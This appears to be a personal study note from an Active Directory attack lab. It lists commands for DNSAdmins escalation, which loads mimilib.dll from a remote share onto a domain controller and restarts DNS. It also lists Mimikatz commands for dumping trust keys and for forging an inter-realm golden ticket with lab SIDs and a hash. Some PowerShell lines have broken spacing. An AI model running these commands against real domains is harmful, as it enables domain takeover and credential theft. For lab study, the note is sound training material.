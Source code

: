 #### Configure DLL using dnscmd.exe (needs RSAT DNS):
```powershell
dnscmd dcorp-dc /config /serverlevelplugindll \\172.16.50.100\dll\mimilib.dll

# Using DNSServer module (needs RSAT DNS):
$dnsettings = Get-DnsServerSetting -ComputerName dcorp-dc - Verbose -All $dnsettings.ServerLevelPluginDll = "\\172.16.50.100\dll\mimilib.dll" Set-DnsServerSetting - InputObject 
$dnsettings -ComputerName dcorp-dc -Verbose
```

#### Restart the DNS service (assuming that the DNSAdmins group has the permission to do so): 
```cmd
sc \\dcorp-dc stop dns 
sc \\dcorp-dc start dns 
```

### By default, the mimilib.dll logs all DNS queries to `C:\Windows\System32\kiwidns.log`

# Across Trusts

• Across Domains - Implicit two way trust relationship. 
• Across Forests - Trust relationship needs to be established.

## Child to Parent

• Child to Forest Root 

• Domains in same forest have an implicit two-way trust with other domains. There is a trust key between the parent and child domains. 

• There are two ways of escalating privileges between two domains of same forest: 
– Krbtgt hash 
– Trust tickets

![[Pasted image 20230106220826.png]]

![[Pasted image 20230106220904.png]]

#### Get Trust Key from child to parent
```powershell
Invoke-Mimikatz -Command '"lsadump::trust /patch"' -ComputerName dcorp-dc

# Or
Invoke-Mimikatz -Command '"lsadump::dcsync /user:dcorp\mcorp$"'
```

## Child to Forest root using Trust Tickets. 

#### Inter-realm TGT forging
```powershell
Invoke-Mimikatz -Command '"Kerberos::golden /user:Administrator /domain:dollarcorp.moneycorp.local /sid:S-1-5-21-1874506631-3219952063-538504511 /sids:S-1-5-21-280534878-1496970234-700767426-519 /rc4:7ef5be456dc8d7450fb8f5f7348746c5 /service:krbtgt /target:moneycorp.local /ticket:C:\AD\Tools\kekeo_old\trust_tkt.kirbi"'
```
![[Pasted image 20230106223817.png]]
